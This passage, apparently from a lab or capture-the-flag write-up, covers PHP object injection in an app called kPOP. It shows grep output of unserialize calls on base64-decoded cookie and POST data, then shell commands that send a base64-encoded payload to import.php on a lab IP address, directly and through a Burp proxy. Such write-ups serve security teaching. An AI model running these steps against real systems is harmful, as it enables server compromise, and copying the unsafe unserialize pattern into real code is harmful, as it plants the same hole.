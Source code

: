 #### 4.1. Injection point

Can be any user supplied input that is passed to `unserialize`
```
$ grep -rn 'unserialize' .
./classes.php:158:            $oldlyrics = unserialize(base64_decode($_COOKIE['lyrics']));
./classes.php:167:            return unserialize(base64_decode($_COOKIE['lyrics']));
./classes.php:213:                $r [] = unserialize(base64_decode($row[0]));
./import.php:5:    $data = unserialize(base64_decode($_POST['data']));
```

#### 4.2. Injection point - `import.php`
```
$ target='172.16.201.160:8443'
$ payload=`http --verify=no https://$target/sploit.php | base64`
$ http --verify=no -f https://$target/kPOP/import.php data=$payload 2>/dev/null
```

#### 4.3. Proxy setup (Burp)
```
$ proxy='https:http://127.0.0.1:8080'
$ target='172.16.201.160:8443'
$ payload=`http --verify=no https://$target/sploit.php | base64`
$ http --verify=no --proxy=$proxy -f https://$target/kPOP/import.php data=$payload 2>/dev/null
```
